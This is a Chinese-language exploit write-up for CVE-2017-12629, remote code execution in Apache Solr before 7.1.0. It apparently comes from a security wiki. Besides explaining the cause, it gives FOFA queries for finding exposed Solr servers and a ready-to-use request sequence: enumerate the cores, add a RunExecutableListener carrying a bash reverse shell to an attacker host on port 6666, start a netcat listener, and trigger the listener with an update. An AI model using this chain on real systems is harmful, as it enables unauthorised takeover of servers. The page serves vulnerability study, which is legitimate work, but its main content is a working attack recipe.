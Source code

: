 

# CVE-2017-12629 | Apache Solr < 7.1.0 存在远程代码执行漏洞



## 0x00 漏洞说明



在 `Apache Solr < 7.1.0` |` Apache Lucene < 7.1.0` 可运行 SolrCloud 和 StandaloneServer 两种模式，当以 SolrCloud 模式运行时，可通过 Configset API  操作  `Configsets`，包括创建、删除等。对于通过  Configset API  执行 UPLOAD 时，如果启用了身份验证**（默认未开启）**，且该请求通过了身份验证，则 Solr 会为该 `configset`  的设置`trusted`，否则该配置集不会被信任，**不被信任的  `configset`  无法创建 `collection` 。**



**和远程命令执行漏洞（RCE）**：

RCE漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。



## 0x01 影响版本



-  <  `Apache Solr 7.1.0` 
-  <  `Apache Lucene 7.1.0`



## 0x02 漏洞成因



1. Apache Solr后端在处理的时候没有对用户输入的指令做严格的判断以及过滤。直接拼接，导致远程代码/命令执行。
2. 当攻击者通过 UPLOAD 上传 `configset`  后，再基于此`configsetCREATE configset` 时，Solr 不会为这个新的 `configset` 进行信任检查，导致可以使用未经信任检查的新 `configset` 创建 `collection`



## 0x03 漏洞指纹



fofa:

```
app="apache-Solr"
title="Solr Admin"
```



## 0x04 详细利用过程



**首先获取core参数**



```json
http://xxxx:8983/solr/admin/cores?indexInfo=false&wt=json
```



返回结果:

```json
{
    "responseHeader": {
        "status": 0,
        "QTime": 0
    },
    "initFailures": {},
    "status": {
        "demo": {
            "name": "demo", //core名称
            "instanceDir": "/opt/solr/server/solr/demo",
            "dataDir": "/opt/solr/server/solr/demo/data/",
            "config": "solrconfig.xml",
            "schema": "managed-schema",
            "startTime": "2022-03-19T11:53:01.190Z",
            "uptime": 199562
        }
    }
}
```





**首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数** (URL路径中包含core名称)



```json
POST:http://ip:8983/solr/demo/config HTTP/1.1

body:
{
    "add-listener":
    {
        "event":"postCommit",
        "name":"RCETEST", //name可以随便修改，但不能重复
        "class":"solr.RunExecutableListener",
        "exe":"bash",	//执行的命令
        "dir":"/bin/", //目录
        "args":["-c","bash -i >& /dev/tcp/ip/6666 0>&1"]		//参数
    }
}
```



VPS启动监听

```
nc -lvvp 6666
```







**然后进行update操作，触发刚才添加的listener：**



```json
POST:http://ip:8983/solr/demo/update


body:

[{"id":"RCETEST"}]


这里需要注意！

http Headers 必须添加Content-Type: application/json
```



等待大概1分钟



## 0x05 扩展链接



[NVD CVE-2017-12629 Detai](https://nvd.nist.gov/vuln/detail/CVE-2017-12629) 



[CVE-2017-12629 - Apache Solr XXE & RCE 漏洞分析](https://paper.seebug.org/425/)



[Apache Solr 远程命令执行漏洞（CVE-2017-12629）](https://www.linuxlz.com/aqld/2057.html)



## 0x06 联系方式



作者 : BitWiki支持团队
